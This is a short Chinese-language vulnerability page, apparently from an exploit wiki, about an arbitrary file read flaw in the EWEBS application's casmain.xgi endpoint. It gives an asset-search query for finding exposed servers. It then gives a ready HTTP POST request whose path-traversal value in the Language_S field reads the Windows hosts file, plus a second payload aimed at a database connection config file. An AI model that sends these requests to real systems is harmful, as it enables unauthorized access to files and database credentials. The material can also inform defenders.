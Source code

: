 # 极通EWEBS casmain.xgi 任意文件读取漏洞

## 漏洞描述

极通EWEBS casmain.xgi 任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

<a-checkbox checked>极通EWEBS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="新软科技-极通EWEBS"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/image-20210615125923544.png)



漏洞请求包为

```plain
POST /casmain.xgi HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=923b86fa90ce1e14c82d4e36d1adc528; CookieLanguageName=ZH-CN
Content-Length: 57

Language_S=../../../../windows/system32/drivers/etc/hosts
```



![img](/assets/PeiQi-Wiki/img/image-20210615130137932.png)



可以配合 testweb.php 信息泄露读取敏感信息

```plain
Language_S=../../Data/CONFIG/CasDbCnn.dat
```

